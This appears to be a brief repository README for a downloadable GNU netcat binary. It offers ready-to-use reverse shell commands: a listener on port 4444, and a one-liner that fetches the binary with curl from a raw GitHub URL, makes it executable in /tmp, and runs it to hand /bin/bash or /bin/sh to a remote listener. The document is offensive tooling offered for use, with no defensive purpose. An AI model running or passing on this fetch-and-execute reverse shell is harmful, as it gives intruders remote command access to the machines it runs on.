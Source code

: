 # nc.ubuntu
This is the GNU netcat binary tested working on Ubuntu 14.04 -18.04

# Start reverse shell listener

```
nc -lv 4444
```

# Run reverse shell

```
curl https://raw.githubusercontent.com/tdwyer/nc.ubuntu/master/netcat -o /tmp/netcat && chmod +x /tmp/netcat && /tmp/netcat -e /bin/bash 127.0.0.1 4444 || /tmp/netcat -e /bin/sh 127.0.0.1 4444"
```
